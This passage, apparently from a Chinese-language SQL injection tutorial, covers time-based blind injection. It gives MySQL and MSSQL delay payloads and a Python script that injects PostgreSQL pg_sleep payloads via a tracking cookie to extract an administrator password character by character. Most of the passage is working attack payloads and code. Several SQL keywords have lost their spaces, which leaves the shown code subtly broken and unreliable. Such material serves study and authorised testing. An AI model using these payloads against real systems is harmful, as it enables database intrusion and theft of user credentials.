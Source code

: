   
  
7.1.1 使用 Python 实现自动化  
  
点击展开脚本该脚本计算密码长度，然后使用子字符串检查和布尔反馈迭代提取每个字符。  
  
7.2 基于时间的盲注入  
  
当没有可用的响应差异或错误时，请使用时间延迟。其他有效载荷示例：  
  
有效负载示例 1（MySQL SLEEP）：  
  

```
?id=1' AND IF((SELECTASCII(SUBSTRING(password,1,1)) FROMusersWHERE username='administrator') > 109, SLEEP(5), 0)--
```

  
  
检查首字符的 ASCII 值是否大于 'm' (109)。若为真则进入休眠状态，启用字符值二分查找。  
  
有效载荷示例 2 (MSSQL WAITFOR)：  
  

```
?id=1'; IF (SELECTLEN(password) FROMusersWHERE username='administrator') = 10 WAITFOR DELAY '0:0:5'--
```

  
  
仅当长度等于 10 时才通过休眠来推断密码长度。  
  
PostgreSQL 通过休眠延迟  
  
点击展开脚本  
  

```
import requests, time

session_id = input(&#34;enter session id: &#34;)
url = input(&#34;enter url: &#34;)
charset = &#34;abcdefghijklmnopqrstuvwxyz0123456789&#34;

for pos in range(1, 21):
    for ch in charset:
        payload = (
            f&#34;'||(SELECTCASEWHENsubstring(password,{pos},1)='{ch}'THEN pg_sleep(5) ELSE pg_sleep(0) ENDFROMusersWHERE username='administrator')--&#34;
        )
        cookies = {&#34;TrackingId&#34;: payload, &#34;session&#34;: session_id}
        start = time.time()
        requests.get(url, cookies=cookies)
        if time.time() - start > 4:
            print(f&#34;Position {pos}: {ch}&#34;)
            break
```

  
  
使用 IF 条件pg_sleep可以通过观察延迟来实现按位提取。我们选择此有效载荷用于 PostgreSQL 环境，因为它具有精确性和可靠性。  
  